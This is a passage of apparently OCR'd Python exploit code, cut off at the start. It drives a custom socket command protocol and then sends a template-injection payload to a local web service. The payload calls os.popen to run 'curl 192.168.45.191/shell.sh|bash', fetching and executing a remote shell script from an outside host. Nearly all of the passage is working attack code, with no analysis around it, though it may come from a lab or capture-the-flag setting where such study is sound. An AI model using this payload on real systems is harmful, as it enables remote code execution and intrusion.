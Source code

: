 ```python
	#print (data)
	if int(data[0]) == 1:
		return data[1].decode()
	else:
		return None

# Example:
# 2\x00commands\x00
def send_command(uuid, cmd, *args):
	connect()
	buf = b""
	buf += b"2"
	buf += b"\x00"
	buf += uuid.encode()
	buf += b"\x00"
	buf += cmd.encode()
	buf += b"\x00"
	if args != ():
		for x in args:
			buf += x.encode()
			buf += b"\x00"

	s.send(buf)
	r = s.recv(25600)
	data = r.split(b"\x00")

	s.close()
	if int(data[0]) == 1:
		return data[1].decode()
	else:
		return None

uuid = login()

cmd = 'curl'
arg = 'http://127.0.0.1:8080/?echostr={{self.__init__.__globals__.__builtins__.__import__("os").popen("curl 192.168.45.191/shell.sh|bash").read()}}'
print(send_command(uuid, cmd, arg))
```
